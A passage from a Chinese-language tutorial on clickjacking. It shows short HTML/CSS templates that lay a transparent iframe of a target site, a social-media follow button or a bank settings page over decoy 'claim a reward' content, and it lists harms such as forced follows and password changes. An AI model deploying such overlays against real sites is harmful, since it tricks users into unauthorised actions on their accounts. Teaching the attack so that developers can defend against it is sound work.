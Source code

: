 ## 5. 示例

```html
<!-- 攻击者的页面 -->
<style>
  .overlay {
    position: absolute;
    top: 0;
    left: 0;
    opacity: 0;  /* 透明的目标页面 */
    z-index: 1;
  }
  .decoy {
    position: absolute;
    top: 0;
    left: 0;
    z-index: 0;
  }
</style>

<div class="decoy">
  <!-- 诱饵内容，例如"点击领取奖励" -->
</div>
<iframe class="overlay" src="https://target-site.com"></iframe>
```

## 6. 具体危害

### 6.1. 社交媒体攻击

- 强制关注特定账号
- 点赞/转发恶意内容
- 发布未经授权的状态更新
```javascript
// 示例：诱导用户点击隐藏的"关注"按钮
<iframe src="https://social-media.com/follow-button" 
        style="opacity: 0; position: absolute;">
</iframe>
```

### 6.2. 账户安全威胁

- 修改账户设置
- 更改密码
- 添加授权设备
```html
<!-- 示例：隐藏的账户设置页面 -->
<div style="position: relative; width: 500px; height: 300px;">
  <iframe src="https://bank.com/settings" 
          style="opacity: 0.0; position: absolute;"></iframe>
  <div style="position: absolute;">
    点击领取优惠券！
  </div>
</div>
```
